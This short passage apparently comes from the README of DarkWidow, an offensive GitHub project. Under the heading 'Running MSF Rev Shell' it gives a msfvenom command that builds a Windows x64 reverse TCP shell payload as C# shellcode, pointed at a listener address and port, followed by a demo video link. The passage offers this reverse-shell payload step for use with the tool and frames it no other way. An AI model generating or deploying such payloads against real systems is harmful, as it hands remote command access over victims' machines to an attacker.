 # Running MSF Rev Shell:

payload creation cmd:
```
msfvenom -p windows/x64/shell_reverse_tcp -ax64 LHOST=192.168.0.114 LPORT=1234 -f csharp
```

https://github.com/reveng007/DarkWidow/assets/61424547/048be98c-c16c-406f-91a5-93c26a618f83

